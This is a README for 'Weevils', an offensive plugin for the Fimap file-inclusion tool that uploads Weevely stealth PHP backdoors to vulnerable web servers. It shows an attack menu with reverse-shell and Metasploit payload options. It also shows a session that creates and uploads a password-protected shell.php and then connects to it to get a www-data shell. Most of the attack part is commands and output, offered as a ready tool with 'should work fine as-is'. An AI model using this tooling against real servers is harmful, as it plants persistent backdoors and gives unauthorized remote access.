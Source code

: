 Weevils - Fimap Plugin that Injects Weevely Backdoors via Fimap.

Author:    Darren "Infodox" Martyn.
Email:     infodox@insecurety.net
Twitter:   twitter.com/info_dox
Site:      http://insecurety.net/
Usage:     Just add this to the plugins folder in Fimap, should work fine as-is.

Example:
#########################################################
#:: Available Attacks - PHP and SHELL access ::         #
#########################################################
#[1] Spawn fimap shell                                  #
#[2] Spawn pentestmonkey's reverse shell                #
#[3] [Upload Weevely] Uploads a Weevily Backdoor        #
#[4] [msf_bindings] Executes MSF reverse payloads       #
#[5] [Test Plugin] Show some info                       #
#[6] [reverse http shell] Loads a reverse HTTP shell    #
#[q] Quit                                               #
#########################################################
Choose Attack: 3
Shell not existing... Making Shell
Backdoor Password Please: lolcatsFTW

Weevely 0.6 - Generate and manage stealth PHP backdoors
              Emilio Pinna 2011-2012            

+ Backdoor file 'shell.php' created with password 'lolcatsFTW'.
Uploading client to /var/www/inclusiondemo/shell.php
Uploaded 593 bytes
Uploaded! Now use Weevely to connect!

# 
Now to connect you just use Weevely. This plugin does NOT automatically launch Weevely (YET).
Later I may add an auto-connect but for now it is not on the cards.
#
Connecting:
root@bt:/weevely# python weevely.py http://localhost/inclusiondemo/shell.php lolcatsFTW

Weevely 0.6 - Generate and manage stealth PHP backdoors
              Emilio Pinna 2011-2012            

[+] Starting terminal. Shell probe may take a while...

[+] List modules with <tab> and show help with :show [module name]

www-data@bt:/var/www/inclusiondemo$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bt:/var/www/inclusiondemo$ 

# BOOM! Got Shell!


### Known Issues ###
* This plugin does NOT work with /var/log/auth.log injection (ssh injection) yet. This is due to haxhelper not really liking said injection method for some reason.
* This plugin does NOT yet auto connect, as my normal method of popping an XTERM to connect did not seem like a great idea.
* This plugin is still in Beta. Report any bugs in my code, PLEASE!

### Greetings and Credits ###
imax for writing Fimap!
Emilio Pinna for writing Weevely
ohdae for making me feel I HAD to write something :P
pr0f for inspiration in general.

### NOTICE ###
This software uses Weevely - code.google.com/p/weevely - as part of it. 
If they have an issue with this they should contact me, as I am using their code out of respect for its awesomeness.
